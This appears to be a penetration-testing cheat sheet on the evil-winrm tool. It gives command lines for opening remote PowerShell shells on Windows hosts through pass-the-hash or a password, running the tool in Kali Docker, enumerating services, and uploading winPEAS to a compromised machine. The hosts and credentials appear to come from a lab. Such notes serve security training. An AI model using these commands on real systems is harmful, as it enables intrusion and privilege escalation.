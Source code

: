 # evil-winrm

* `evil-winrm` is used to take advantage of machines with port 5985 or 5986 open which is Powershell Remoting.
* This will provide shell level access to the machine with the user account that you have compromised. &#x20;
* You can auth either with a hash or password
* Supports SSL

### Usage

* Connect with pass the hash attack

```
evil-winrm -i 10.10.100.15 -u administrator -H "c2597747aa5e43022a3a3049a3c3b09d"
```

* Password Authentication:

```
evil-winrm -i 10.10.100.15 -u a-whitehat -p "bNdKVkjv3RR9ht"
```

### evil-winrm Docker

* I have had issues with `evil-winrm` running properly on non kali Linux distros such as Ubuntu.
* One simple work around is to pull a Kali Docker image and utilize that&#x20;

```
sudo docker run --tty --interactive kalilinux/kali-rolling
evil-winrm -i 172.16.2.5 -u 'DANTE.ADMIN\jbercov' -p mypass123
```

* copy files from host into evil-winrm docker container&#x20;

```
sudo docker cp /opt/winPEASx64.exe 3faed2add6c3:/opt
```

### evil-winrm Service enumeration

* you can use a builtin from evil-winrm to enumerate services on a remote endpoint

```
services
Path                                                                           Privileges Service          
----                                                                           ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                           False ADWS             
C:\Windows\HQbCgOtZ.exe                                                             False fGnb             
C:\Windows\qiFePsnh.exe                                                             False fYCF             
C:\Windows\FxRmIulx.exe                                                             False gbkS             
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                        True NetTcpPortSharing
C:\Windows\rIiHdlwq.exe                                                             False odgx
--snip-- 
```

### evil-winrm file upload

* use the builtin for evil-winrm to upload files from your attackbox to the remote host&#x20;

```
upload /opt/winPEASx64.exe 
Info: Uploading /opt/winPEASx64.exe to C:\Windows\system32\spool\drivers\color\winPEASx64.exe
```
